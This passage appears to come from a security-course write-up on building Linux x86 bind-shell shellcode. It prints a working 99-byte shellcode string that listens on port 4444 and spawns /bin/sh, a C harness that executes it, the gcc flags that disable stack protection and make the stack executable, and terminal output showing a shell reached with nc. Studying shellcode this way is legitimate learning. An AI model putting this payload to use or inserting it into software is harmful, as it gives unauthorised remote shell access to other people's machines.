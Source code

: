 
Now we'll take the dumped shellcode and place it in a C file, we do this to confirm it works in a C program.
```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x31\xf6\x89\xc6\xb0\x66\x5b\x5a\x31\xd2\x52\x66\x68\x11\x5c\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x31\xc9\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x56\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xf6\xcd\x80";

main(){

	printf("Shellcode Length: %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

Once that's done we're going to need to compile it:
```
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/# gcc -fno-stack-protector -z execstack testingShellcode.c -o testingShellcode
```

And we're done!

## Testing our shell

To test our shell we'll execute our C file, don't be alarmed if it hangs, it should be doing that as it's waiting for a connection:
```
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/# ./testingShellcode
Shellcode Length: 99

```

Now in another terminal we check that the port is running, and it is!:
```
root@ubuntu:/home/ubuntu# netstat -antp | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      4917/testingShellco
```

All that's left to test is the accept and execve syscalls...
```
root@ubuntu:/home/ubuntu# nc 127.0.0.1 4444
```


It works! We've successfully created a shell-bind-tcp from scratch!
```
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/working/4-testShellcode# ./testingShellcode
Shellcode Length: 99
# 
```
